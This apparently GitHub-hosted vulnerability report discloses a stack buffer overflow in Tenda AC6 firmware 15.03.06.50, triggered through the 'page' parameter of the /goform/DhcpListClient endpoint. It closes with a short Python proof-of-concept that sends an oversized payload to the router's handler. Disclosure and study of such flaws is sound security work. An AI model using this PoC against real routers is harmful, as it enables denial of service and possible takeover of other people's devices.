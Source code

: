# Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A critical stack-based buffer overflow vulnerability has been discovered in the Tenda AC6 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/DhcpListClient` HTTP request handler and can be exploited by remote attackers to achieve code execution or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow exists in the HTTP request handler for the `/goform/DhcpListClient` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `page`.


![alt text](image-1.png)

## poc
![alt text](image.png)

![alt text](image-2.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'page': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x100 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/DhcpListClient", payload)
```


